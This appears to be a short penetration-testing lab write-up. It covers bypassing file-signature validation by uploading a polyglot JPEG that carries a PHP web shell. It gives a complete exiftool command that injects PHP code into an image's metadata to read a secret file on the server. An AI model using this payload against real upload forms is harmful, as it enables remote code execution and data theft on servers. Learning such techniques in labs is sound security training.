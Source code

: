  certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes FF D8 FF.

 [jpeg header hexadecimal](https://www.google.com/search?q=jpeg+header+hexadecimal&sca_esv=0058b4b1712ac891&sca_upv=1&hl=ar&sxsrf=ACQVn08Br0jHT660r7mpbbB2LF3gXyl_tw%3A1713638375937&source=hp&ei=5wskZv_JN7arkdUPvvSd4A0&iflsig=ANes7DEAAAAAZiQZ99ROJ1gNRrxcn8JcQ3Rnl0HH0wrh&udm=&oq=jpeg+&gs_lp=Egdnd3Mtd2l6IgVqcGVnICoCCAAyBBAjGCcyBBAjGCcyDBAjGIAEGBMYJxiKBTIFEAAYgAQyCBAAGIAEGLEDMgoQABiABBgKGMsBMgoQABiABBgKGMsBMgUQABiABDIFEAAYgAQyCBAAGIAEGMsBSLEvUABYoxtwAXgAkAEAmAHiAqABrAqqAQcwLjQuMC4yuAEDyAEA-AEBmAIHoAL8CqgCCsICChAjGIAEGCcYigXCAgsQABiABBixAxiDAcICCxAuGIAEGLEDGIMBwgILEC4YgAQY0QMYxwHCAgcQIxgnGOoCwgINEC4Y0QMYxwEYJxjqAsICCRAAGIAEGAEYCsICBRAuGIAEmAMPkgcHMS40LjAuMqAHwy4&sclient=gws-wiz)

 This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ```ExifTool```, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata. 



 # Practice
 ### Lab: Remote code execution via polyglot web shell upload
 
 
 ![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/f4132829-382f-42a8-8a7f-30b0f5d52dc1)

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b5812496-03e0-4f58-94f4-1ac2c1aa1624)




### We upload normal image , we will using ```exiftool``` to put php payload on image.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/1532b481-2fc4-4a7f-a4fb-6cab06850443)

## Inject payload on image:

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a4aa33b0-70ed-412b-8895-50ff5c197046)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/9353135e-f87e-4f94-8f38-359d84d020a5)

# Thanks ...
